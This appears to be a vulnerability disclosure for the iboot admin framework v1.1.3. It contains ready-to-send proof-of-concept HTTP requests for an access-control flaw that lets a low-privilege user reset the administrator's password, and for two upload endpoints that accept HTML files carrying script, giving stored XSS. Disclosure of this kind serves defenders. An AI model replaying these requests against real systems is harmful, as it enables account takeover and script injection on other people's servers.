










BUG_Author

Longlong Gong

# Project

Address: [iboot](https://gitee.com/iteaj/iboot/)

## 1、Logical loopholes

###  1.1、`/core/admin/pwd` Ordinary users changing administrator password

[Affected version]

v1.1.3


[Affected Component]

/core/admin/pwd


[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3


[Description]

There is a logical vulnerability in the id parameter of the `/core/admin/pwd` interface in the iboot backend management framework v1.1.3, which allows for the modification of passwords for management or any other user through this interface, resulting in low privileged users logging in as administrators

POC

```
POST /core/admin/pwd HTTP/1.1
Host: 192.168.1.184:8080
Authorization: session
x-requested-with: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Referer: http://192.168.1.184:8080/core/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_adedae9bc250561cc17e96dc1fb46079=1741931237,1741948074,1742043334; JSESSIONID=31B3E8CA0B98ED93CC1DD633AC20DF31
Connection: close
Content-Type: application/json
Content-Length: 52

{"password":"123456","surePassword":"123456","id":1}
```



It can be seen that the demonstration user only has the permission to view. Here, by changing the ID of the password modification interface, the password for management can be directly modified



Successfully logged into the administrator with the modified password



## 2、File Upload

### 2.1、`/common/upload` Arbitrary File Upload

[Affected version]

v1.1.3


[Affected Component]

/common/upload


[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3


[Description]

There is an arbitrary file upload vulnerability in the `/common/upload ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML and XSS

POC

```
POST /common/upload HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

We can see this upload interface for the code





The file suffixes here are directly concatenated without verification





Upload HTML XS and concatenate the path behind the host

http://192.168.1.184:8080/img/upload/common/cf8618b7-9ee5-4ffa-b6b9-f6f4c9720039.html



### 2.2、`/common/upload` Arbitrary File Upload

[Affected version]

v1.1.3


[Affected Component]

/common/upload


[Software]

https://gitee.com/iteaj/iboot/repository/archive/v1.1.3


[Description]

There is an arbitrary file upload vulnerability in the `/common/upload/batch ` interface of the iboot backend management framework v1.1.3, which allows uploading files with arbitrary suffixes, such as HTML and XSS

POC

```
POST /common/upload/batch HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=979D2EA2CB07DA3F12DDF4DA381776A6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Length: 203

------WebKitFormBoundary0OBgRzAzprfZAVQw
Content-Disposition: form-data; name="file"; filename="1.html"
Content-Type: image/jpeg

<script>alert(1)</script>
------WebKitFormBoundary0OBgRzAzprfZAVQw--
```

Use the interface above to send the package, obtain the path, and concatenate the paths to see that XSS is successful




